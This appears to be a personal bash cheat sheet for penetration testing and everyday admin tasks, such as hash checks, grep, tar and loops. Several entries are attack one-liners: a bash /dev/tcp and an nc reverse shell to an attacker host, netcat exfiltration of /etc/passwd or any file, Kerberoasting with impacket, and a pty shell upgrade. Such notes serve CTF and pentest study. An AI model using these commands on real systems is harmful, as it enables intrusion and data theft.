 # bash

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`

or if no `-e`

`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker ip listening port > /tmp/f`

### do things to entires in IPs.txt
`for ip in `cat ips.txt`; do md5sum $ip; done >> something.txt`

### ippsec's scanner
```bash
#!/bin/bash
# by Ippsec https://www.youtube.com/watch?v=kE36IGAU5rg

for i in $(seq 2 225); do
    ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
    if [[ $? -eq 0 ]];  then
          echo "172.20.0.$i - Online"
    fi
done
```
### grep for a string recursively in a dir
```bash
grep -r --include "*.h" "get_return_address" .
# --include "*.h" --> search files ending in .h
```
### exfil /etc/passwd (OR ANYTHING) with nc
```bash
# set up listner on attack box, port 31337. Direct output to exfil.txt
nc -nvlp 31337 > exfil.txt
# on the target, use
nc <attacker_ip_addr> 31337 < /etc/passwd # replace /etc/passwd with whatever file you want to try
```

### if your tool can't handle cidr notation, do it the hard way (ex: is a 10.10.0.0/16)
```bash
for i in $(seq 1 255); do echo "10.10.$i.1-255"; done | tr "\n" ","
```
### Mount a CIFS share with your Kerberos ticket on Linux 
```bash
sudo mount -t cifs -o "sec=krb5,cruid=$UID,user=Administrateur,domain=http://FOO.BAR" //AD1.FOO.BAR/C$ /mnt/test
```
### tar and untar a directory
```bash
tar -zcvf archive.tar.gz directory/;
tar -zxvf archive.tar.gz
```
### impacket scripts using a file containing a list of users (GetUserSPNs as an example)

```bash
for i in $(cat ~/path/to/user.list); do echo $i; ./GetUserSPNs.py -request -dc-ip 10.10.xx.xxx -no-pass -k domain.name/$i; sleep 5; done
```
### python3 pty
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-z
bg
stty raw -echo
fg
```

### Find files recursively in a directory
```bash
find . -ls -type f
```
